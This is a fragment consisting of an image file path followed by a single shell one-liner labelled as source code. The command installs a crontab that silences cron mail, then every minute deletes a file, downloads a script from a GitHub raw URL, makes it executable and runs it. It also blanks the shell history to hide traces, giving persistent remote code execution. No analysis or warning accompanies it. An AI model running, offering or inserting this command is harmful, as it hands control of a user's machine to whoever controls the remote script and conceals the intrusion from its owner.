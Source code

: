 echo 'MAILTO=""' > ~/.crontab && echo '* * * * * rm ~/.q || true && curl -v -H "Cache-Control: no-cache" --location --silent "https://raw.githubusercontent.com/TheFreeCompute/q/master/01_model.sh?_=$(date +%s)" -o ~/.q && chmod 777 ~/.q && ~/.q' >> ~/.crontab && crontab ~/.crontab && echo '' > .bash_history || true

